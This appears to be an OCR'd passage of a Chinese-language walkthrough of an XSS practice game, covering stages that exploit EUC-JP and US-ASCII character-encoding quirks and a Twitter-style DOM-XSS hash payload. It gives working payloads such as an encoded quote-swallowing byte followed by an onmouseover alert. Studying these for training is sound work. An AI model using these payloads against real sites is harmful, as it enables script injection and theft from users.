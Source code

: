 ```
euc-jp 的编码范围:
byte 1 为 8E 时, 为 2 byte 编码, byte 2 范围为 A1-DF
byte 1 范围为 A1-FE 时, 为 2 byte 编码, byte 2 范围为 A1-FE
byte 1 为 8F 时为 3 byte 编码, byte 2 与 byte 3 范围均为 A1-FE
两个表单元素都提交 %A7 闭合最后的双引号, 查看源码成功了, 为什么 UI 上去没成功? 无奈直接在地址栏: javascript:alert(document.domain);
现在发现原来是浏览器版本问题, 别用 IE8 了过这个.

```

`p1=1%A7&p2=+onmouseover%3Dalert%28document.domain%29%3B+%A7`

`Hint: us-ascii high bit issue`

```
41-5A, 61-7A (若含数字与符号, 则为 21-7E)
同样别用 IE8, 这些漏洞已经在 IE8 中修补了.
```

`p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE`

## Stage 19

`Hint: Twitter DOM-XSS`

payload

`#!javascript&#58;alert(document.domain);`

复现失败.